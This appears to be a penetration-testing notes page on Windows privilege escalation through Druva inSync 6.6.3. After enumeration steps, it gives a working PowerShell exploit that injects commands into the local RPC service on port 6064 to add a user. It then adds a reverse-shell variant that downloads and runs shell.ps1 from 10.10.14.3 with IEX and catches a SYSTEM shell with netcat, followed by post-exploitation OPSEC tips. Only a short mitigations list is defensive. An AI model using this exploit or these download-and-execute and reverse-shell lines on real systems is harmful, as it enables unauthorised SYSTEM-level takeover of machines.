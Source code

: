 ## Summary

Even on well-maintained systems, privilege escalation may be possible through third-party applications running as SYSTEM. Vulnerable services or poorly configured software can be exploited for local privilege escalation (LPE). Always enumerate installed applications and running services thoroughly.
## Enumeration

### 1. Enumerate Installed Applications

```cmd
wmic product get name
```

**Sample Output:**

```
Microsoft Visual C++ 2019 X64 Minimum Runtime - 14.28.29910
...
Druva inSync 6.6.3
...
```

> **Observation:** Druva inSync 6.6.3 is known to be vulnerable to command injection via RPC service (port 6064).
### 2. Enumerate Listening Ports

```cmd
netstat -ano | findstr 6064
```

**Sample Output:**

```
TCP    127.0.0.1:6064  ...  LISTENING       3324
```
### 3. Map PID to Process Name

```powershell
get-process -Id 3324
```

**Sample Output:**

```
Id     : 3324
Name   : inSyncCPHwnet64
```
### 4. Identify Service Name

```powershell
get-service | ? {$_.DisplayName -like 'Druva*'}
```

**Sample Output:**

```
Running  inSyncCPHService   Druva inSync Client Service
```
## Exploitation – Druva inSync (v6.6.3)

### PowerShell Exploit PoC

```powershell
$ErrorActionPreference = "Stop"

$cmd = "net user pwnd /add"

$s = New-Object System.Net.Sockets.Socket(
    [System.Net.Sockets.AddressFamily]::InterNetwork,
    [System.Net.Sockets.SocketType]::Stream,
    [System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter]::GetBytes($command.Length)

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)
```
## Reverse Shell Variant (Safer)

### 1. Append reverse shell to PowerShell script:

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.3 -Port 9443
```

### 2. Host `shell.ps1` via Python HTTP Server

```bash
python3 -m http.server 8080
```

### 3. Modify `$cmd` in PoC:

```powershell
$cmd = "powershell IEX(New-Object Net.Webclient).downloadString('http://10.10.14.3:8080/shell.ps1')"
```

### 4. Launch Netcat Listener:

```bash
nc -lvnp 9443
```

**Expected Result:**

```
whoami
> nt authority\system
```
## Post-Exploitation

- Confirm SYSTEM shell
- Clean up users and artifacts if needed
- Maintain OPSEC (avoid adding users if possible)
## Mitigations

- Restrict software installation rights for users
- Regularly audit third-party software for known CVEs
- Use application whitelisting
- Patch vulnerable agents like Druva inSync
# Tags
> #Windows-Post-Exploitation #Windows-Privesc #Vulnerable_Services